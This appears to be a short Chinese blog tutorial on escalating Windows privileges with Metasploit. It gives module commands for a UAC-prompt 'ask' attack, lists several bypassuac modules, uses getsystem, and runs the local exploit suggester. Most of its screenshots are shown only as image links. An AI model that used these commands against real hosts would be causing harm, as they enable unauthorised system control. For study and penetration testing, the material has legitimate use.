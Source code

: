 ```yaml
---
title: MSF提权
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-22 21:04:04
password: xxxxx
summary: 权限提升
tags: 权限提升
categories: 权限提升
---
```


---

### **MSF权限提升**



基于MSF的简单提权限

<!-- more -->

#### **方法：**

- 提高程序运行级别
- BypassUAC
- 利用漏洞提权

 一、提高程序运行权限

获取到session后发现权限比较低，此时可以使用  exploit/windows/local/ask模块来尝试进行攻击

![image-20201022225705503](MSF提权/image-20201022225705503.png)

```
set session 1
set filename qq.exe
exploit
```

![image-20201022211517291](MSF提权/image-20201022211517291.png)



获取到新的session，backkground退回msf，session，执行getsystem

![image-20201022212015935](MSF提权/image-20201022212015935.png)

![image-20201022212235253](MSF提权/image-20201022212235253.png)

![image-20201022212618886](MSF提权/image-20201022212618886.png)

二、UAC绕过

相关模块

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_eventvwr 
```

bypassuac，先bypassuac在通过getsystem获取一个更高权限的session

![image-20201022215103702](MSF提权/image-20201022215103702.png)

![image-20201022215139866](MSF提权/image-20201022215139866.png)



三、利用漏洞提权

相关模块

自动查找响应系统提权exp，search suggester这个模块



```
use post/multi/recon/local_exploit_suggester
set session id
run
```

![image-20201022220516950](MSF提权/image-20201022220516950.png)

然后利用相关exp尝试提权



----